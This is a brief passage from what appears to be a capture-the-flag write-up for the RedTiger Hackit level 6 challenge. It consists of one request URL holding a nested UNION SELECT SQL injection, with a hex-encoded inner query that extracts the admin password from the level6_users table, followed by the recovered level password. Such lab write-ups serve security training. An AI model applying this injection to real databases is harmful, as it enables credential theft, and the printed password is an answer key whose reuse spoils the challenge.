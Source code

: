 [https://redtiger.labs.overthewire.org/level6.php?user=0%20union%20select%201,0x2720554e494f4e2053454c4543542070617373776f72642c70617373776f72642c70617373776f72642c70617373776f72642c70617373776f72642046524f4d206c6576656c365f757365727320574845524520757365726e616d653d2761646d696e,3,4,5%20FROM%20level6_users](https://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,0x2720554e494f4e2053454c4543542070617373776f72642c70617373776f72642c70617373776f72642c70617373776f72642c70617373776f72642046524f4d206c6576656c365f757365727320574845524520757365726e616d653d2761646d696e,3,4,5 FROM level6_users)



pass: **shitcoins_are_hold**
